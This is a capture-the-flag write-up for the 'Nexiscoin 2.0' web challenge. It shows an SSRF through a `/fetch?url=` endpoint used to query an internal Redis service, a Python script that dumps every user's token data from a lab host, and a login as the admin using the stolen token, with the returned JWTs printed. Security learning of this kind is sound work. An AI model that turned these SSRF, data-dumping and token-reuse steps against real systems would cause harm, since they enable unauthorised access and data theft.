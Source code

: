# Nexiscoin 2.0

## Flag 1

### Recon

We are given a website with documentation about it's API, we learn that there are `/admin/` routes that require the correct Access Token, and that there is a whole transaction system with blockchain (This is not a Web3 challenge, it's just a simulation).

we can't do much with it, login/register routes are "disabled by admin", and all the transactions data are read-only.

Looking around some more with burp we see a `GET /fetch?url=http://127.1:7379/GET/total_account HTTP/1.1` being done by the website. The `/GET/total_account` looks like a redis command, let's try to pass the request: `/KEYS/*`.

It works! We get 682 keys, two of them are not API keys but data points: `total_transaction` and `total_account`.

> Flag 1: How many users are registered on the platform?
> 680

## Flag 2

The 680 keys appear to be user IDs, let's try to call `/GET/<API_key>` on one of them, we get a hash, that when decoded from base58 gives the following:

```py
{
  'header': {
    'version': 2
  },
  'payload': {
    'user': 'hsalazar@madden-riley.org',
    'type': 'user',
    'permission': 'read,write'
  },
  'signature': '44234ab207b239ab94b2c7c1199b1ee921ff8b213d1e86b6af797d339fdb5227'
}
```

Interesting, we can try to bruteforce the API to fetch all the data from all the users:

```py
import requests
from time import sleep
import json
import base58

print("key;data")

for l in L:
    res = requests.get(f"http://138.195.249.52:5000/fetch?url=http://127.1:7379/GET/{l}")
    if res.status_code != 200:
        print(f"Error for {l}")
        break
    data = json.loads(res.text)
    hash = data['GET'].replace("['", "").replace("']", "")
    decoded = json.loads(base58.b58decode(hash).decode())

    print(f"{l};{decoded}")
    sleep(.1)
```

We this we get [data.csv](data.csv) of all the file data for each user, and their signature.

Looking for anything that stands out we find the `admin` user:

```csv
token_FjVQph;{'header': {'version': 2}, 'payload': {'user': 'admin@nexiscoin.ev', 'type': 'admin', 'permission': 'read,write'}, 'signature': 'a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414'}
```

> Flag 2: What is the signature of the admin user?
> a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414

## Flag 3

From here, the first thing that comes to mind is to try and login as the `admin`, to do so we use the API and try to login as that user, after some trial and error I found that you cna login using a accessToken which is the base58 data we are given for a user:

`POST http://138.195.249.52:5000/api/login` with as a body:

```json
{
  "token": "2ecXF5d83jGAhHH2gjfYSJGifh9NcVo3CmQ584nkUu9kA9KrxmN3JX2USYJaaPV5pE7BMKmG4pw3zRUUDXCQjE3CY2mm3Uk9P8DwM4tujjHKVDjTVDAgcNfWx2DAMTWNiKtM4BYyJeqouup5m4b322W19ecXNy3fGD2iViPeb62pibdB63WKehVq6R5m9voW83HnxtpnfFxsarx9aSundV24WmF7w4mHUeH75PXmKP579qeUKnUBHRw8vbcDmXAEZV6QdWp5nm2
}
```

This gives us:

```json
{
    "access_token1": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiZDIwOGMxNDUtZWY3Mi00MWZkLTk2ZjUtMTY1ODhlOTQxOGNmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiIzMDlmZDIwZS1lYzE0LTRiNzAtYTk3Mi0xMDhkNmNiMWUwN2IiLCJleHAiOjE3MzM1ODM4Njh9.WncmQRRCR0dYKMOxxN3wqmeNGX4Rfh1OsybLHMCzIrI",
    "access_token2": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiODQ0N2VlOWQtNzhiYi00ZWRhLTkyNjItNDRmZTY0ZWRiMjdlIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiI4MzRmMWJlYy0wN2VhLTQ4NzgtODI0Ni1lZmUyYWEwNDVhZmIifQ.vK_fOWH80yqDGxuJxQQ5gb5AX8hG42XkJzOIGtLSGhE"
}
```

Both have standard header with `HS256`.

`access_token1`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "d208c145-ef72-41fd-96f5-16588e9418cf",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "309fd20e-ec14-4b70-a972-108d6cb1e07b",
  "exp": 1733583868
}
```

`access_token2`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "8447ee9d-78bb-4eda-9262-44fe64edb27e",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "834f1bec-07ea-4878-8246-efe2aa045afb"
}
```

But from here I attempted to call the `/admin/` routes of the API or even just access transactional data for the user with many different techniques, but nothing worked.

At some point the admins gave us a huge dump of all the sell/buy/transactions in the database (looks like I wasn't the only one struggling with logins 😅)

From here we have to comb trough a ton of data. I wrote some scripts, tried to parse it as much as possible, I always ended up with dead ends, the issue came from the ambiguity of the question:

> Flag 3: Who is the user that made more than 15 transactions of 40000USD.

We are unsure of:

- the format of the flag,
- if 15 is counted as a transaction or not
- if the user has to have made 15 transactions of 40000USD or 15 transactions of each 40000USD or more.

My best shot gave me 18 potential suspects, though the CTFd had a plugin that would also remote points for failed attempts. Loosing 100pts for each try, and the flag only values at 700 points, it was too much risk to try and guess the flag.
